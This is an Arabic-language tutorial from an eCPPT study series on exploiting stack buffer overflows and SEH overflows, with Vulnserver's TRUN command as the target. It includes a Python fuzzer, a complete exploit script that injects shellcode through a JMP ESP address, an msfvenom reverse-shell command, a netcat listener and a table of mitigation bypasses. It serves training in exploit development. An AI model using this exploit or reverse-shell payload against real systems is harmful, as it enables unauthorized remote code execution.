


يعد استغلال ثغرات الذاكرة وطفحان الذاكرة الوسيطة (Buffer Overflow) من المهارات الجوهرية التي تفصل بين مختبر الاختراق التقليدي الذي يعتمد على الأدوات الجاهزة، وبين الباحث الأمني المتمكن القادر على كتابة استغلالات مخصصة (Custom Exploit Development). 

في هذا الجزء من مسار **eCPPT**، سنشرح بالتفصيل المنهجية المعتمدة لاكتشاف واستغلال ثغرات طفحان المكدس الكلاسيكية (Stack-Based BOF)، يتبعها تفكيك هندسي لثغرات تجاوز معالج الاستثناءات في أنظمة ويندوز المعروفة بـ **Structured Exception Handling (SEH) Overflows**.

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 1: أمن الأنظمة وأساسيات x86](/posts/ecppt-v3-part-1-system-security-x86-assembly/) | **الجزء 2: تطوير ثغرات Buffer Overflows & SEH** | [الجزء 3: اختبار اختراق الشبكات والاستكشاف المتقدم](/posts/ecppt-v3-part-3-network-penetration-testing/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **منهجية الاستغلال في 6 خطوات**: تمر عملية استغلال طفحان المكدس بمراحل محددة: التحفيز والإغراق (Fuzzing)، تحديد الإزاحة الدقيقة (Finding the Offset)، التحقق من السيطرة على `EIP`، استبعاد البايتات التالفة (Bad Characters)، البحث عن تعليمة توجيه آمنة (`JMP ESP`)، ثم حقن الشيفرة التنفيذية (Shellcode) مع زلاجة من الـ NOPs.
* **البحث عن الإزاحة عبر الأنماط الفريدة**: نستخدم خوارزمية De Bruijn عبر أداتي `msf-pattern_create` و `msf-pattern_offset` لتحديد الموقع الدقيق للعنوان المكتوب فوق `EIP` دون تخمين.
* **تصفية البايتات التالفة (Bad Characters)**: بعض الدوال مثل `strcpy` تعتبر البايت `\x00` نهاية النص وتوقف النسخ؛ لذلك يجب توليد مصفوفة ومقارنتها عبر أداة `mona.py` في الذاكرة.
* **معالج الاستثناءات (SEH Overflows)**: في حال وجود حماية للمكدس أو فشل الاستغلال المباشر، يتم الكتابة فوق سلسلة `nSEH` و `SEH Handler`. يتم الاستغلال باستخدام تركيبة `POP POP RET` تليها قفزة قصيرة (Short Jump) إلى الشيفرة الخبيثة.

---

## 1. تشريح طفحان المكدس (Stack Overflow Mechanics)

تحدث ثغرة طفحان المكدس عندما تقبل دالة برمجية مدخلات من المستخدم وتنسخها إلى مساحة مخصصة في المكدس (Buffer) دون التحقق من طول المدخلات. من أشهر هذه الدوال في C: `strcpy`, `strcat`, `gets`, `sprintf`.



عندما تصل الدالة إلى نهايتها وتنفذ تعليمة `ret`، يسحب المعالج القيمة المخزنة في موقع `Saved EIP` ويضعها في سجل مؤشر التعليمات `EIP` لتنفيذها. إذا استبدل المهاجم تلك القيمة بعنوان تعليمة `JMP ESP`، فسيقفز المعالج إلى قمة المكدس حيث توجد الشيفرة التنفيذية المحقونة!

---

## 2. منهجية الاستغلال العملية خطوة بخطوة (Step-by-Step Exploitation)

### الخطوة 1: الفحص والإغراق (Fuzzing)

نبدأ بكتابة نص برمجي بلغة Python 3 يقوم بالاتصال بالمنفذ المفتوح للخدمة، وإرسال سلاسل نصية متزايدة الطول لمعرفة الحجم التقريبي الذي يتسبب في انهيار التطبيق (Crash).

```python
#!/usr/bin/env python3
import socket
import sys
import time

target_ip = "192.168.1.100"
target_port = 9999

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5.0)
        s.connect((target_ip, target_port))
        
        # استلام البانر الترحيبي
        banner = s.recv(1024)
        print(f"[*] Sending payload with length: {len(buffer)}")
        
        # إرسال الأمر المصاب (مثال: TRUN command)
        payload = f"TRUN .{buffer}\r\n"
        s.send(payload.encode('latin-1'))
        s.close()
        
        buffer += "A" * 100
        time.sleep(1)
    except Exception as e:
        print(f"[+] Application crashed at approximately {len(buffer) - 100} bytes!")
        sys.exit(0)
```

---

### الخطوة 2: تحديد الإزاحة الدقيقة (Finding the Exact Offset)

بافتراض انهيار البرنامج عند إرسال 2400 بايت، نستخدم أداة `msf-pattern_create` لإنشاء نمط نصي غير متكرر:

```bash
msf-pattern_create -l 2400
```

نضع النمط الناتج في نص الاستغلال ونرسله إلى التطبيق أثناء مراقبته من داخل **x32dbg** أو **Immunity Debugger**. عند الانهيار، نفحص القيمة التي انتهت في سجل `EIP` (ولنقل أنها `386F4337`).

نحدد الإزاحة الدقيقة باستخدام `msf-pattern_offset`:

```bash
msf-pattern_offset -q 386F4337 -l 2400
# المخرج: [*] Exact match at offset 2003
```

---

### الخطوة 3: التحقق من السيطرة على EIP (Verifying EIP Control)

نقوم الآن بتأكيد الإزاحة: إرسال 2003 حرف "A"، يليها 4 أحرف "B" (`0x42424242`)، يليها حشو من أحرف "C":

```python
offset = 2003
payload = b"A" * offset + b"B" * 4 + b"C" * (2400 - offset - 4)
```

عند إرسال الحمولة، يجب أن يُظهر المنقح توقف البرنامج وعنوان `EIP` يساوي بدقة: `42424242`، بينما يشير سجل `ESP` مباشرة إلى بداية الأحرف "C"!

---

### الخطوة 4: فحص واستبعاد البايتات التالفة (Bad Characters Elimination)

البايتات التالفة هي قيم بايت معينة لا يقبلها التطبيق أو يغير قيمتها (مثل `\x00` الذي يعتبر Null-byte ينهي السلاسل النصية، أو `\x0a` الذي يمثل سطرًا جديدًا).

نستخدم إضافة **mona.py** داخل المنقح:

1. **توليد مصفوفة البايتات المرجعية باستثناء `\x00`**:
   ```text
   !mona bytearray -b "\x00"
   ```

2. **إرسال كافة البايتات من `\x01` إلى `\xff` في الحمولة**:
   ```python
   badchars = (
       b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
       # ... حتى \xff
   )
   payload = b"A" * 2003 + b"B" * 4 + badchars
   ```

3. **المقارنة في المنقح**:
   ```text
   !mona compare -f C:\mona\bytearray.bin -a <ESP_Address>
   ```

تُظهر نافذة Mona المقارنة بدقة. إذا ظهر بايت مفقود أو مشوه، نقوم باستبعاده وتكرار الفحص حتى نحصل على: `Status: Unmodified`.

---

### الخطوة 5: البحث عن تعليمة توجيه آمنة (JMP ESP)

لا يمكننا القفز مباشرة إلى عنوان `ESP` لأن عناوين المكدس تتغير مع كل تشغيل. الحل هو العثور على تعليمة `JMP ESP` ثابتة العنوان داخل ملف تنفيذي أو مكتبة DLL تابعة للبرنامج تفتقر إلى آليات الحماية (ASLR = False, SafeSEH = False, Rebase = False).

نبحث باستخدام Mona عن الشفرة الثنائية لـ `JMP ESP` وهي `\xff\xe4`:

```text
!mona jmp -r esp -cpb "\x00\x0a\x0d"
```

نختار عنوانًا نظيفًا من مكتبة لا تخضع للـ ASLR، مثل: `0x625011AF`. ونظرًا لأن المعالج يعمل بنظام Little-Endian، سنكتبه في الحمولة بالعكس: `\xaf\x11\x50\x62`.

---

### الخطوة 6: توليد الشيفرة التنفيذية وزلاجة NOPs

نولد حمولة Reverse Shell مخصصة باستخدام `msfvenom` مع استبعاد كافة البايتات التالفة المكتشفة:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.50 \
         LPORT=4444 \
         -b "\x00\x0a\x0d" \
         -f python -v shellcode
```

نضيف **NOP Sled** (`\x90` * 16 أو 32) قبل الـ Shellcode لمنح مفكك الشيفرة (Decoder Routine) مساحة أمان أثناء فك التشفير في الذاكرة:

```python
#!/usr/bin/env python3
import socket

target = "192.168.1.100"
port = 9999

offset = 2003
jmp_esp = b"\xaf\x11\x50\x62"   # 0x625011AF
nops = b"\x90" * 32

shellcode = (
    b"\xba\x87\x3a\x9d\x92\xd9\xeb\xd9\x74\x24\xf4\x5d\x33\xc9"
    # ... بقية الحمولة المولدة
)

payload = b"TRUN ." + (b"A" * offset) + jmp_esp + nops + shellcode + b"\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send(payload)
s.close()
```

بمجرد تشغيل مستمع Netcat على جهاز المهاجم (`nc -lvnp 4444`) وإرسال الاستغلال، يتم الحصول على جلسة أوامر تفاعلية فورية بصلاحيات التطبيق!

---

## 3. استغلال معالج الاستثناءات الهيكلي (SEH Overflows)

تعد بنية **Structured Exception Handling (SEH)** آلية في نظام Windows للتعامل مع أخطاء زمن التشغيل (مثل محاولة الوصول لعنوان ذاكرة غير مسموح).

تُبنى سجلات SEH كسلسلة مترابطة (Linked List) على المكدس، حيث يتكون كل سجل (`EXCEPTION_REGISTRATION_RECORD`) من عنصرين بحجم 4 بايت لكل منهما:
1. **`nSEH` (Pointer to Next SEH Record)**: يشير إلى السجل التالي في السلسلة.
2. **`SEH Handler`**: مؤشر لعنوان الدالة المسؤولة عن معالجة الخطأ.



### خطوات استغلال SEH:
1. **تحديد إزاحة nSEH و SEH Handler**: عبر نمط Metasploit ومراقبة نافذة SEH في المنقح (`View -> SEH Chain`).
2. **البحث عن POP POP RET**: نحتاج إلى عنوان تعليمة تسحب قيمتين من المكدس وتنفذ `RET` للعودة إلى المكدس حيث يقع `nSEH`. نستخدم Mona:
   ```text
   !mona seh -cpb "\x00"
   ```
3. **كتابة القفزة القصيرة في nSEH**: نضع في `nSEH` التعليمة `\xeb\x06\x90\x90` (قفزة غير مشروطة بمقدار 6 بايت للأمام مع NOPs) لتخطي خانة `SEH Handler` التي تليها مباشرة دون إفساد التنفيذ.
4. **وضع الشيفرة الخبيثة**: نضع زلاجة الـ NOPs والـ Shellcode مباشرة بعد خانة `SEH Handler`.

---

## 4. آليات الحماية الحديثة وتجاوزها (Modern Exploit Mitigations)

| الحماية | آلية العمل | تقنية التجاوز (Bypass Technique) |
| :--- | :--- | :--- |
| **DEP / NX (Data Execution Prevention)** | وضع علامة غير قابل للتنفيذ على المكدس والكومة. | استخدام **ROP (Return-Oriented Programming)** لاستدعاء `VirtualProtect` أو `VirtualAlloc`. |
| **ASLR (Address Space Layout Randomization)** | توزيع عشوائي لعناوين المكتبات والأكواد في الذاكرة عند كل إقلاع. | استهداف موديولات غير مفعلة بها ASLR، أو تسريب عناوين الذاكرة (Information Disclosure / Memory Leak). |
| **SafeSEH** | التحقق من صحة عناوين معالجات الاستثناءات ومقارنتها بجدول معتمد في رأس الملف. | استخدام عناوين `POP POP RET` من خارج الموديولات المفعل بها SafeSEH، أو استغلال ثغرات بدون أخطاء. |
| **Stack Canaries (/GS)** | وضع قيمة عشوائية (Cookie) قبل `Saved EBP` والتحقق منها قبل تنفيذ `RET`. | استغلال ثغرات SEH (لأن معالج الاستثناء يُستدعى قبل فحص الكاناري)، أو تسريب وتخمين قيمة الكاناري. |

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **Corelan Team Exploit Writing Tutorials**: المرجع العالمي الرائد في هندسة استغلال الثغرات وتجاوز SEH و ROP.
2. **Mona.py Documentation by Corelan**: [https://github.com/corelan/mona](https://github.com/corelan/mona)
3. **Vulnserver: A Vulnerable TCP Server for Exploit Development Practice**: مشروع ستيفن برادشو الشهير لتدريب الباحثين الأمنيين.
4. **SANS SEC660: Advanced Penetration Testing, Exploit Writing, and Ethical Hacking**.
5. **MITRE ATT&CK Technique T1203: Exploitation for Client Execution**.

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
